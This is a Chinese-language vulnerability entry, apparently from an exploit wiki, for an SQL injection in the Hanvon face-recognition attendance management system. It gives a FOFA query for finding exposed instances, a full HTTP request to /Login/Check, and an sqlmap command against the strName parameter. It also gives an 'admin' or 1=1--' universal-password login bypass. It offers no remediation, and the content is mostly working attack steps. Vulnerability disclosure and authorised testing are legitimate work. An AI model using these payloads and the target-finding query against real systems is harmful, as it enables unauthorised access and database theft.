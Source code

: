 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 汉王人脸考勤管理系统

## FOFA

> [!NOTE]
>
> title=""汉王人脸考勤管理系统""

## 漏洞复现

登录界面如下

![1](http://wikioss.peiqi.tech/vuln/hw-1.png)

请求包如下

```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

其中strName参数存在注入

```shell
sqlmap -r postwang.txt -p strName  --current-user
```

![](http://wikioss.peiqi.tech/vuln/hw-2.png)

```
user: admin' or 1=1--
pass: admin
```

万能密码绕过登录

![](http://wikioss.peiqi.tech/vuln/hw-3.png)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/hw-4.png )